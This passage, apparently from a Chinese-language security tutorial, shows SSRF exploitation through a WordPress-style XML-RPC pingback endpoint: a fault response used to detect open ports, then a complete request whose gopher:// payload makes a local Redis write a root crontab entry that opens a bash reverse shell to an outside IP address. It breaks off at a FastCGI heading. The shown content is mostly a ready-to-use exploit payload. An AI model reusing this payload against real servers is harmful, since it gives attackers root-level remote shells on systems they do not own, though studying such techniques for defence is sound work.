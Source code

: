 返回`源地址不支持PingBack`，说明端口开启。

```
<?xml version="1.0"?>
<methodResponse>
  <fault>
    <value>
      <struct>
        <member>
          <name>faultCode</name>
          <value><int>50</int></value>
        </member>
        <member>
          <name>faultString</name>
          <value><string>源地址不支持PingBack</string></value>
        </member>
      </struct>
    </value>
  </fault>
</methodResponse>
```

### 3.2 攻击Redis

EXP中由于带有`&`字符，需要使用CDATA。

```xml
<?xml version="1.0" encoding="utf-8"?>

<methodCall> 
  <methodName>pingback.ping</methodName>
  <params>
    <param>
      <value>
        <string><![CDATA[gopher://127.0.0.1:6379/_*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$61%0d%0a%0a%0a%0a*/1 * * * * bash -i >& /dev/tcp/47.89.25.236/2333 0>&1%0a%0a%0a%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0a*1%0d%0a$4%0d%0aquit%0d%0a]]></string>
      </value>
    </param>
    <param>
      <value>
        <string>joychou</string>
      </value>
    </param>
  </params>
</methodCall>
```

### 3.3 攻击FastCGI

#### 3.3.1 利用条件
